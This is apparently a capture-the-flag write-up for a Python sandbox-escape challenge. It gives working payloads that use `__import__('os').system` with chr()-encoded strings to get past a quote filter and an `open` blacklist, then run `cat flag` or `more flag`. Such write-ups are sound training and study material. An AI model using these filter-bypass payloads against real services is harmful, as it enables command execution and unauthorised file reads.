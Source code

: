 # Solution
You have access to global variables (see `g`), just `open` is blacklisted.

That means you can import stuff using `__import__`.

Since `"` and `'` are replaced from the input with an empty string, you need to create your string using `chr(ascii)`

The following executes a system command to print the contents of the file.
##### Windows: 
`__import__("os").system("more flag")`<br>
encoded: `__import__(chr(0x6F)+chr(0x73)).system(chr(0x6D)+chr(0x6F)+chr(0x72)+chr(0x65)+chr(0x20)+chr(0x66)+chr(0x6C)+chr(0x61)+chr(0x67))`
#####
`__import__("os").system("cat flag")`<br>
encoded: `__import__(chr(0x6F)+chr(0x73)).system(chr(0x63)+chr(0x61)+chr(0x74)+chr(0x20)+chr(0x66)+chr(0x6C)+chr(0x61)+chr(0x67))`
